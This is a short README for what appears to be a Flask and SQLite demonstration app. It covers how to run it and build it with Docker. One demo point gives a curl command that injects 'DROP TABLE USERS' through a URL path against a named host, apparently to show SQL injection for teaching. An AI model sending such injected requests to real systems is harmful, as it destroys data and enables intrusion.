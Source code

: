 # flask_demo
Flask w\ SQL Light Demonstration

To start website:
```sh
python3 run.py
```

## Demo points
Docker commands
```sh
docker build -t flask_demo:local .
docker run --rm -p 5050:5050 --name flask_demo flask_demo:local
```

SQL Injection Exploit
```sh
curl -X PUT "http://devops.simpleltc.com:5050/users/6;DROP%20TABLE%20USERS;--?firstName=test"
```
More info about exploit can be found <https://www.pythonforengineers.com/xkcd-style-sql-injection-hack-in-python/>
